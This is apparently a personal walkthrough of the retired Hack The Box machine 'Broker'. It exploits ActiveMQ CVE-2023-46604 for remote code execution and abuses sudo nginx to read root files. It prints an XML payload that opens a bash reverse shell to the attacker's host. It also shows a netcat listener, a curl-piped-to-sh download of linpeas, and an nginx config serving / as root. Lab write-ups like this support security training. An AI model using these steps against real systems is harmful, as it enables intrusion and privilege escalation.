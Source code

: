 # Broker
First write-up doing HTB after a long time. I already solved this, so the notes will be from memory.


Metadata:
- OS: Linux
- Difficulty: Easy
- Status: Retired

## Recon

Started with running `nmap -sS <target-ip>` to get some information on the server. Learned that 22 & 80 were open. The fact it is using Nginx will be important later.

When you go to `http://<target-ip>`re prompted with a basic auth pop-up. Of course, `admin/admin` would work.

After logging in, you're directed to the splash page of ActiveMQ with the version: `5.15.15` (think I went to /admin to see the version). This is important because it is vulnerable to RCE [CVE-2023-46604](https://nvd.nist.gov/vuln/detail/CVE-2023-46604)

## Exploitation
Googling the CVE, I came across this efficient PoC from `X1r0z`. [Source Code](https://github.com/X1r0z/ActiveMQ-RCE).

```bash
git clone https://github.com/X1r0z/ActiveMQ-RCE.git
cd ActiveMQ-RCE #poc.xml example should exist
```

The PoC was simple enough, you modify an xml file that will be the payload sent and executed by the victim. Here is an example of that: [Thank you 0xdf](https://0xdf.gitlab.io/2023/11/09/htb-broker.html), because I actually needed assistance with privilege escalation. Something I hope to improve on in the future.

```xml
<?xml version="1.0" encoding="UTF-8" ?>
    <beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
        <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
            <constructor-arg>
            <list>
                <value>bash</value>
                <value>-c</value>
                <value>bash -i &gt;&amp; /dev/tcp/<your-ip>/1337 0&gt;&amp;1</value>
            </list>
            </constructor-arg>
        </bean>
    </beans>
```
Now it was time to connect to the victim machine. It involves 3 steps (I used 3 different terminal windows)

1. poc.xml needs to be hosted so the victim can `curl` and download the xml file.
2. start a netcat listener (port 1337 using my example)
3. run the PoC

```bash
# 1st terminal I run http server using python
python -m http.server #defaults to 8000

# 2nd terminal
ncat -lnvp 1337 # can't be leet if you don't use 1337

# 3rd terminal run the PoC
go run main.go -i <target-ip> -u http://<your-ip>:8000/poc.xml
```

### User Flag
At this point, you should get a shell connection on your 2nd terminal (where you ran netcat). From here, it is a simple `cd` and you'll have the user flag (user.txt).

### Privilege Escalation
This is where I sadly got stumped for a bit. I was able to get `linpeas.sh` on the box using curl and my http.server (port 8000).
```bash
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh > linpeas.sh #where my http server is being served

# from victim terminal
curl http://<your-ip>:8000/linpeas.sh | sh
```

Finally, we decided to look at what others did and came across a clean privilege escalation with Nginx. This is where the rest of the credit goes to `0xdf`. Hopefully with practice, I can improve on privilege escalation. Essentially, `sudo nginx` allows you to run a webserver as root. Thereby, allowing you to expose the root.txt flag.

First, you need to make a nginx.conf. Using `0xdf`'s example, I was able to write the file and `curl` it to the victim's machine (using the http.server).

Now, you want to save this file in a specific location that can run as root (I believe.). We stored it as `0xdf` did at `/dev/shm/nginx.conf`

```
user root;
events {
    worker_connections 1024;
}
http {
    server {
        listen 8008;
        root /;
        autoindex on;
    }
}
```
Next, you want to start the nginx server, `sudo /usr/sbin/nginx -c /dev/shm/nginx.conf`

### Root Flag
Lastly, run `curl http://<your-ip>:8008/root/root.txt` and paste the flag.

## Final Thoughts
This was my first box after not doing HTB for almost 2 years. It was definitely an easy problem due to the vulnerability it focused on (RCE's are really strong). Also, I know the box was retired when I attempted it - made for finding a walkthrough super easy. Overall, I think this was a pretty good challenge. Especially trying to remember how to do things.

I think total time, it took less than an hour to solve. Hopefully in time I can improve on my 'privilege escalation'-fu and use metasploit to save time.
